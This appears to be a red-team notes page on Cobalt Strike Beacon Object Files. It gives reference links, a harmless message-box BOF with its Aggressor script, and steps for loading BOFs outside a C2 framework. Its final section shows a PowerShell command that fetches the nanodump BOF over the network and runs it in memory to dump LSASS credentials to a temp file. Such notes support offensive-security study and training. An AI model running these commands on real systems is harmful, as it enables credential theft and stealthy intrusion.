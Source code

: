 ```yaml
---
description: Beacon Object Files / Common Object File Format
---
```


# BOF / COFF

- [https://www.trustedsec.com/blog/operators-guide-to-the-meterpreter-bofloader/](https://www.trustedsec.com/blog/operators-guide-to-the-meterpreter-bofloader/)
- [https://securityintelligence.com/posts/how-to-hide-beacon-during-bof-execution/](https://securityintelligence.com/posts/how-to-hide-beacon-during-bof-execution/)
- [https://github.com/xforcered/bofmask](https://github.com/xforcered/bofmask)
- [[PDF] Microsoft Portable Executable and Common Object File Format Specification (Microsoft Corporation)](https://courses.cs.washington.edu/courses/cse378/03wi/lectures/LinkerFiles/coff.pdf)

Argument types for [bof_pack](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics_aggressor-scripts/as-resources_functions.htm#bof_pack):

| **Type** | **Description**                  | **Unpack With (C)**          |
|----------|----------------------------------|------------------------------|
| b        | binary data                      | BeaconDataExtract            |
| i        | 4-byte integer                   | BeaconDataInt                |
| s        | 2-byte short integer             | BeaconDataShort              |
| z        | zero-terminated+encoded string   | BeaconDataExtract            |
| Z        | zero-terminated wide-char string | (wchar_t \*)BeaconDataExtract |

A basic BOF example:

{% tabs %}
{% tab title="BOF" %}
{% code title="msgbox.c" %}
```c
// curl -sS https://download.cobaltstrike.com/downloads/beacon.h -o beacon.h
// x86_64-w64-mingw32-gcc -c msgbox.c -o msgbox.o

#include <windows.h>
#include "beacon.h"

void go(char* args, int alen)
{
    DECLSPEC_IMPORT INT WINAPI USER32$MessageBoxA(HWND, LPCSTR, LPCSTR, UINT);

    datap parser;
    BeaconDataParse(&parser, args, alen);

    char* message;
    message = BeaconDataExtract(&parser, NULL);

    USER32$MessageBoxA(NULL, message, "Hello from BOF!", 0);
}
```
{% endcode %}
{% endtab %}
{% tab title="Aggressor" %}
{% code title="msgbox.cna" %}
```
alias msgbox {
    local('$handle $bof $args');

    # Read the bof file
    $handle = openf(script_resource("msgbox.o"));
    $bof = readb($handle, -1);
    closef($handle);

    # Pack args
    $args = bof_pack($1, "z", $2);
    
    # Print task to console
    btask($1, "Running MessageBoxA BOF");
    
    # Execute BOF
    beacon_inline_execute($1, $bof, "go", $args);
}

beacon_command_register("msgbox", "Pops a message box", "Calls the MessageBoxA Win32 API");
```
{% endcode %}
{% endtab %}
{% endtabs %}




## Run BOFs outside of C2

- [https://www.trustedsec.com/blog/coffloader-building-your-own-in-memory-loader-or-how-to-run-bofs/](https://www.trustedsec.com/blog/coffloader-building-your-own-in-memory-loader-or-how-to-run-bofs/)
- [https://github.com/trustedsec/COFFLoader](https://github.com/trustedsec/COFFLoader)
- [https://skyblue.team/posts/invoke-bof/](https://skyblue.team/posts/invoke-bof/)
- [https://github.com/airbus-cert/Invoke-Bof](https://github.com/airbus-cert/Invoke-Bof)
- [https://github.com/Cracked5pider/CoffeeLdr](https://github.com/Cracked5pider/CoffeeLdr)
- [https://github.com/frkngksl/NiCOFF](https://github.com/frkngksl/NiCOFF)
- [https://github.com/trustedsec/CS_COFFLoader](https://github.com/trustedsec/CS_COFFLoader)



### RunOF

- [https://labs.nettitude.com/blog/introducing-runof-arbitrary-bof-tool/](https://labs.nettitude.com/blog/introducing-runof-arbitrary-bof-tool/)
- [https://github.com/nettitude/RunOF](https://github.com/nettitude/RunOF)

An example of running the [nanodump.x64.o](https://github.com/helpsystems/nanodump/blob/main/dist/nanodump.x64.o) BOF via RunOF [fork](https://github.com/snovvcrash/RunOF) from memory:

- Compile RunOF.exe assembly and convert it to a PowerShell invoker (see [.NET Reflective Assembly](/pentest/infrastructure/ad/av-edr-evasion/dotnet-reflective-assembly.md))
- Search for argument types that the target BOF uses (usually located in accompanying Aggressor scripts):

```
curl -sSL 'https://github.com/helpsystems/nanodump/raw/main/'`curl -sSL 'https://api.github.com/repos/helpsystems/nanodump/git/trees/main?recursive=1' | jq -r '.tree[] | select(.path | endswith(".cna")) | .path'` | grep bof_pack
    $args = bof_pack($1, "iziiiiiiiziiz", $pid, $dump_path, $write_file, $use_valid_sig, $fork, $snapshot, $dup, $get_pid, $use_malseclogon, $binary_path, $use_malseclogon_race, $use_werfault, $werfault_lsass);
    $args = bof_pack($1, "ziiiiizb", $dump_path, $use_valid_sig, $fork, $snapshot, $dup, $use_malseclogon, $binary_path, $dll);
    $args = bof_pack($1, "z", $ssp_path);
    $args = bof_pack($1, "z", $2);
```

- Load the invoker into memory, fetch the BOF (`-u` option) and run it providing necessary arguments with their types like this:

```
PS > Invoke-RunOF -u https://github.com/helpsystems/nanodump/raw/main/dist/nanodump.x64.o '-i:0' '-z:C:\Windows\Temp\lsass.bin' '-i:1' '-i:1' '-i:0' '-i:0' '-i:0' '-i:0' '-i:0' '-z:' '-i:0' '-z:'
```
